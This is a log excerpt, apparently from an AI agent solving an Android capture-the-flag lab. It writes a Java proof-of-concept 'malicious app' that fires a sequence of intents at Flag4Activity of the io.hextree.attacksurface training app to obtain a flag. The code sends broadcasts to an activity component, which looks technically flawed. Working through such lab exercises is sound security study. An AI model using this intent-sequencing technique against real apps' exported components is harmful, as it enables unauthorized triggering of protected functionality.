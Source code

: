 --- Parsed Reasoning/Thought ---
OK, the `AndroidManifest.xml` is written. Now, let's create the Java file with the code to send the intents.

--- Tool Call ---
write_to_file({'content': 'package com.example.maliciousapp;\n'
            '\n'
            'import android.app.Activity;\n'
            'import android.content.ComponentName;\n'
            'import android.content.Context;\n'
            'import android.content.Intent;\n'
            'import android.os.Bundle;\n'
            'import android.util.Log;\n'
            '\n'
            'public class MainActivity extends Activity {\n'
            '\n'
            '    private static final String TARGET_PACKAGE = '
            '"io.hextree.attacksurface";\n'
            '    private static final String TARGET_ACTIVITY = '
            '"io.hextree.attacksurface.activities.Flag4Activity";\n'
            '\n'
            '    private static final String PREPARE_ACTION = '
            '"PREPARE_ACTION";\n'
            '    private static final String BUILD_ACTION = "BUILD_ACTION";\n'
            '    private static final String GET_FLAG_ACTION = '
            '"GET_FLAG_ACTION";\n'
            '\n'
            '    @Override\n'
            '    protected void onCreate(Bundle savedInstanceState) {\n'
            '        super.onCreate(savedInstanceState);\n'
            '\n'
            '        sendIntent(PREPARE_ACTION);\n'
            '        sendIntent(BUILD_ACTION);\n'
            '        sendIntent(GET_FLAG_ACTION);\n'
            '        sendIntent("TRIGGER_FLAG"); // Any intent after GET_FLAG\n'
            '\n'
            '        finish(); // Close the malicious activity\n'
            '    }\n'
            '\n'
            '    private void sendIntent(String action) {\n'
            '        Intent intent = new Intent();\n'
            '        intent.setComponent(new ComponentName(TARGET_PACKAGE, '
            'TARGET_ACTIVITY));\n'
            '        intent.setAction(action);\n'
            '        sendBroadcast(intent);\n'
            '        Log.d("MaliciousApp", "Sent intent: " + action);\n'
            '    }\n'
            '}',
 'file_path': 'Android-2/MaliciousFlag4PoC.java'})

--- Tool Observation ---
Success: Wrote 1283 bytes to '/Users/apple/projects/ultron-ai/test_data/Android-2/Android-2/MaliciousFlag4PoC.java'.
